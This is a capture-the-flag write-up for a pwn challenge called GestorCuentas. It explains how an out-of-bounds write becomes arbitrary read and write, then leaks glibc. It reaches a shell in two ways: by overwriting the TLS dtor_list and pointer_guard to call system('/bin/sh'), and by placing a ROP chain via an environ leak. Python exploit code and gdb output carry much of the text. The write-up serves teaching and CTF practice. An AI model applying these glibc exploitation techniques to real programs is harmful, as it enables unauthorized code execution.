

# GestorCuentas - RCE via TLS Storage dtor_list overwrite

## TL;DR

The intended path for this challenge is to abuse an arbitrary write primitive into an `environ` leak to overwrite return address in `main()` before returning to `__libc_start_main()` (this path is also covered in this post), but I thought it was a great example binary to test an alternative way of achieving code execution that I recently learnt from [this](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md) blog.

The tricky part was that we could only write `15` bytes (per address) so, in order to write our ROP chain we had to split it in several parts overwriting `return address + 0x0`, `return address + 0x10`, etc.

- Use an Out-of-Bounds write in `new_account()` to corrupt the `accounts[i+1]->pass` pointer, creating arbitrary read and write primitives.
- With these primitives, leak the glibc base address and then calculate the TLS Storage base address by traversing the ``__nptl_rtld_global->_rtld_global->_ns_loaded`` structure.
- Corrupt TLS Storage's `dtor_list` with a custom destructor that calls `system("/bin/sh")` when the program exits.

## Challenge Description

> He creado un gestor de cuentas. Es la primera release asiq espero que no me haya dejado ningún bug.
 
This challenge is part of the [URJC CTF Introductory Course](https://urjc-ctf.github.io/web/) final CTF. 

Category: **pwn**

## Enumeration
### Analyzing the source code

- We are given a binary with the following functions:
    1. `_init_chall()`: Sets up the buffers and creates the accounts.
    2. `new_account()`: Asks for a name and a password and sets `initialized = 1` for the index given.
    3. `print_account()`: Asks for an index, and prints its `name` and `password` fields.
    4. `update_account()`: Asks for an index, name and password and updates them.


## Solution

### Finding the vulnerability

- This is the `struct user_t` where are using in the challenge:

```c
struct user_t{
	int id;
	int initialized;
	char *pass;
	char name[16];
}
```

- In the `new_account()` function there is a 0x11 byte overflow:

```c
void new_account()
{
	int id = _read_id();
	
	if (!is_valid_account(id, 0)){
		puts("No es un id valido o la cuenta ya está creada");
		return;
	}

	puts("Dime el nombre:");
	read(0, accounts[id].name, 0x20);
	puts("Dime la contraseña:");
	read(0, accounts[id].pass, 16-1);

	accounts[id].initialized = 1;
}
```

- We can create ``accounts[id]`` and overflow its name into ``accounts[id + 1]->pass``, then we can update ``accounts[id + 1]`` to write/read inside any pointer we want.

- I created some helper functions to make the exploitation process cleaner and faster.

```python
def setup_arb(idx: int, addr: int):
  # Make sure you don't corrupt accounts[idx + 1]'s initialized and index fields
  payload = flat(0xdeadbeef) * 2 + p32(idx) + p32(0x1) + flat(addr)
  return payload 

def arb_read(idx: int, addr: int):
   create_account(idx, setup_arb(idx+1, addr), b'AAAA')
   print_account(idx+1)
   rlu(b'a es: ')
   return u64(rl().split(b'Elige')[0].strip().ljust(8, b'\x00'))

def arb_write(idx: int, addr: int, payload: bytes):
  create_account(idx, setup_arb(idx+1, addr), b'AAAA')
  update_account(idx+1, b'AAAA', payload)
```

- We use this primitive to leak glibc by leaking ``puts@got`` address.

```python
puts = arb_read(0, exe.got.puts)
libc.address = puts - libc.sym.puts
print(f"[*] libc leak   :   0x{libc.address:x}")
```

### TLS Storage dtor_list overwrite

- When a program exits via `return` or `exit()` function, libc will execute `__run_exit_handlers()`. This function will call every registered destructor (``dtor``) function and do other cleanup processes before exiting the program.

```c
__run_exit_handlers (int status, struct exit_function_list **listp,
                     bool run_list_atexit, bool run_dtors)
{
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    if (run_dtors)
      __call_tls_dtors ();
...
}
```

- This function parses `dtor_list` structures present in the TLS Storage and calls its `dtor_func func` with `obj` as its first argument. For now, this is all we need to know you can dive more in [this](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md) post.

```c
struct dtor_list
{
  dtor_func func;
  void *obj;
  struct link_map *map;
  struct dtor_list *next;
};
```

- We can check ``__call_tls_dtors`` disassembly to see what is it calling  

```nasm
0x00007ffff7c45d60 <+0>:	endbr64 
0x00007ffff7c45d64 <+4>:	push   rbp
0x00007ffff7c45d65 <+5>:	push   rbx
0x00007ffff7c45d66 <+6>:	sub    rsp,0x8
0x00007ffff7c45d6a <+10>:	mov    rbx,QWORD PTR [rip+0x1d401f]        # 0x7ffff7e19d90
0x00007ffff7c45d71 <+17>:	mov    rbp,QWORD PTR fs:[rbx]   
0x00007ffff7c45d75 <+21>:	test   rbp,rbp                      <- Tests if rbx is 0
0x00007ffff7c45d78 <+24>:	je     0x7ffff7c45dbd <__GI___call_tls_dtors+93>
0x00007ffff7c45d7a <+26>:	nop    WORD PTR [rax+rax*1+0x0]
0x00007ffff7c45d80 <+32>:	mov    rdx,QWORD PTR [rbp+0x18]
0x00007ffff7c45d84 <+36>:	mov    rax,QWORD PTR [rbp+0x0]  <- Stores the address in rbp ([rbx]) in rax
0x00007ffff7c45d88 <+40>:	ror    rax,0x11                 <- Rotates right 0x11 bits
0x00007ffff7c45d8c <+44>:	xor    rax,QWORD PTR fs:0x30    <- XOR with a cookie
0x00007ffff7c45d95 <+53>:	mov    QWORD PTR fs:[rbx],rdx
0x00007ffff7c45d99 <+57>:	mov    rdi,QWORD PTR [rbp+0x8]  <- [rbp+0x8] becomes rdi
0x00007ffff7c45d9d <+61>:	call   rax                      <- Calls rax
```

- Looking at the disassembly we now know that we have to use our write primitive to write a pointer to our function in whatever address is at rbx, and its first argument at rbx+0x8


- The address to write to is tls+0x6e8, so recalling:
  1. Takes the pointer stored at ``tls+0x8``
  2. If it is not null, rotates its bits by 0x11 (17)
  3. Calculates a XOR with the result
  4. Calls the result

- We can find the cookie used to XOR the address at `pointer_guard` -> offset ``tls+0x740+0x30``
 

- Our next step is to leak base TLS address. In the original post, the author adds 0x1ff898 to the libc address to leak an ld.so address close to the TLS, this approach did not work in my libc version (glibc 2.35). I spent good time looking around and I found [this](https://blog.rop.la/en/exploiting/2024/06/11/code-exec-part1-from-exit-to-system.html) post: 

> The linker ld has a global variable ``__nptl_rtld_global`` that points to the global variable ``_rtld_global``, which finally points to the ``rtld_global`` structure. Its first field is ``_ns_loaded`` [...]

- With multiple reads we can leak `_ns_loaded` value, which happens to be `0x502e0` bytes to TLS Storage base address. Now we just have to create a fake ``dtor_func func`` and ``obj`` and write at 0x6e8 the pointer to it. We can overwrite `pointer_guard` with 0 so the XOR does not modify our pointer (another way to handle this is to leak `pointer_guard` and calculate the XOR ourselves). Finally, we can write after 0x6e8 the address of `system() << 17 (remember the ROR)` and after it the address of the string `/bin/sh\x00`.


```python
# Modify dtor_list
tls_target = tls + 0x6e8 # offset checked by placing a breakpoint in __call_tls_dtors
tls_func = tls_target + 8
tls_cookie = tls + 0x770
sh = next(libc.search(b'/bin/sh\x00'))

## Final dtor_list setup:
##  0x6e8 : tls_func (0x6f0)
##  0x6f0 : system() << 17 
##  0x6f8 : "/bin/sh"

arb_write(6, tls_target, flat(tls_func))
arb_write(8, tls_cookie, flat(0x0))
arb_write(10, tls_func, flat(libc.sym.system << 17) + flat(sh)[:6]) # We can only write 15 bytes with update_account()
```

- The original author used one big write to overwrite 0x6e8 and crafted his fake `dtor_list` right after it, but this approach also works well when we only have small writes. We can modify the pointer at 0x6e8 with _any_ address that has our fake ``dtor_list`` correctly set up. In the next example I create my fake struct inside the `accounts` array using ``create_account()`` (without arb write)

```python
arb_write(6, tls_target, flat(exe.sym.accounts + 336))
arb_write(8, tls_cookie, flat(0x0))
create_account(10, flat(libc.sym.system << 17) + flat(next(libc.search(b'/bin/sh\x00')))[:6], b'AAAA')
```

```console
pwndbg> x/gx 0x71768288a000+0x6e8
0x71768288a6e8:	0x00000000004041b0
pwndbg> x/2gx 0x00000000004041b0
0x4041b0 <accounts+336>:	0xe2ed04ca1ae00000	0x41417176827d8678
```


### Getting the flag
After executing our script we achieve code execution.

```console
lokete@kpwn:~$ python3 dtor.py 
[*] libc leak   :   0x75e2d1800000
[*] _rtld_global    :   0x75e2d1abc040
[*] _ns_loaded    :   0x75e2d1abd2e0
[*] tls base    :   0x75e2d1a6d000
$ id
uid=1000(lokete) gid=1000(lokete) groups=1000(lokete)
```

### Intended solution: environ leak into rop chain

- The intended solution for this challenge requires using our arbitrary read primitive to leak `environ` and calculate the address of `rsp` at the end of the `main` function, then overwrite it with our rop chain so when the program tries to return to `__libc_start_main` executes our rop chain.

```python
puts = arb_read(0, exe.got.puts)
libc.address = puts - libc.sym.puts

env = arb_read(2, libc.sym.environ)
stack = env - 0x120 # We must check the offset with gdb

gadgets = ROP(libc)
sh = next(libc.search(b"/bin/sh\x00"))
arb_write(4, stack, flat(gadgets.rdi.address) + flat(sh)[:6])
arb_write(6, stack+0x10, flat(gadgets.ret.address) + flat(libc.sym.system)[:6])
```

- After exiting, we receive our shell.

```console
lokete@kpwn:~$ python3 env.py 
[*] glibc base = 0x798df2c00000
[*] environ = 0x7ffd83d33bc8
[*] return address = 0x7ffd83d33aa8
Dime el id de la cuenta
Dime el nombre:
Dime la contraseña:
Elige una opción:
	1. Crear una cuenta
	2. Imprimir una cuenta
	3. Actualizar una cuenta
	4. Salir
> $ 4
$ id
uid=1000(lokete) gid=1000(lokete) groups=1000(lokete)
```

### Full scripts:
  - Custom `dtor_list` inside TLS Storage: [tls_into_tls.py](assets/tls_into_tls.py)
  - Custom `dtor_list` inside `accounts` array: [tls_into_acc.py](assets/tls_into_acc.py)
  - Intended solution with env leak: [env.py](assets/env.py)
